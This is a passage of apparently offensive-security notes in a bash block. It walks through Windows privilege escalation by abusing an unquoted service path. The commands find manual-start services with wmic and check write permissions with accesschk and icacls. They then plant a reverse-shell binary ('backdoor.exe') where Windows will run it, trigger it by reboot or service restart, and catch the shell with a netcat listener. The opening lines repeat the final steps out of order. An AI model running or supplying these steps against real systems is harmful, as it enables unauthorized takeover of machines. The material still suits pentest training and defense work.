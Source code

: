 ```bash
#  RW BUILTIN\Users


# Create reverse shell binary and copy it accordingly

copy %temp%\backdoor.exe "C:\Program Files\Heisenburg\The.exe" 

# now reboot to have the service auto start 

shutdown /r /t 0




## Case 2, SeShutdownPrivilege = Disabled, we have (service_stop,service_start) privilege on a service

# Search for services that has manual start mode and non-standard
wmic service get name,displayname,pathname,startmode | findstr /i "manual" | findstr /i /v "c:\windows"
# Potential unquoted service output example
Heisenburg Service   heisenburgsvc     "C:\Program Files\Heisenburg\The One Who\knocks.exe"        manual

# Check if we have service_stop, service_start privilege
.\accesschk.exe /accepteula -ucqv user heisenburgsvc

# next check if W or F permission exists for BUILTIN\Users or Everyone on one of the sub directory
icacls "C:\\"                         # or: .\accesschk.exe /accepteula -uwdq C:\
icacls "C:\Program Files"             # or: .\accesschk.exe /accepteula -uwdq "C:\Program Files"
icacls "C:\Program Files\Heisenburg"  # or  .\accesschk.exe /accepteula -uwdq "C:\Program Files\Heisenburg"

# Example output if (builtin\users or EVERYONE) has ( (I) or (F) ) on "C:\Program Files\Heisenburg":
#                  BUILTIN\Users:(F)
#                  BUILTIN\Users:(I)(RX) 
# Example output for accesschk.exe:
#  RW BUILTIN\Users



# Since there is spaces between "\The One Who\" on the path
# Windows will look for "\The.exe" first, then "\The One.exe", then "\The One Who.exe", and finally "\The One Who\knocks.exe"

# Create reverse shell binary and copy it accordingly

copy %temp%\backdoor.exe "C:\Program Files\Heisenburg\The.exe" 

# Start netcat listener to catch the reverse shell and start the service
net start heisenburgsvc # net stop heisenburgsvc first if the service is already running.

```
